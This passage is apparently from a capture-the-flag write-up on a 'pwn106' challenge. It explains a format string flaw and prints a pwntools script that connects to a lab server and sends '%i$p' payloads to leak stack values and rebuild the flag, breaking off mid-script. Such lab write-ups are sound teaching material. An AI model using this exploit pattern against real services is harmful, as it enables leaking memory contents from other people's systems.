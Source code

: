 ![pwn106.png](https://raw.githubusercontent.com/VOiD-Ayush/The_Awesome_Blog/main/all_collections/_posts/images/pwn101/pwn106.png)


Here we can clearly see that it takes a input from us and then print it back to up ... but here's the twist as the programmer dosen't specify format specifier we can provide our own format specifier to leak values from the stack.

Our exploit
```py
# chall6/get_flag.py 
from pwn import *

context.log_level = 'info'

flag=""

# Lets fuzzx values
for i in range(6,12):
    try:
        # connect to server
        io = remote("10.10.145.112",9006,level='warn')
        # io=process('./vuln',level='warn')
        # Format the counter
        # e.g %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Recieve the response (leaked addresses followed by '.' in this case)
        io.recvuntil(b"Thanks ")
        result=io.recv()
        if not b'nil' in result:
            print(str(i) + ":" + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build the flag
```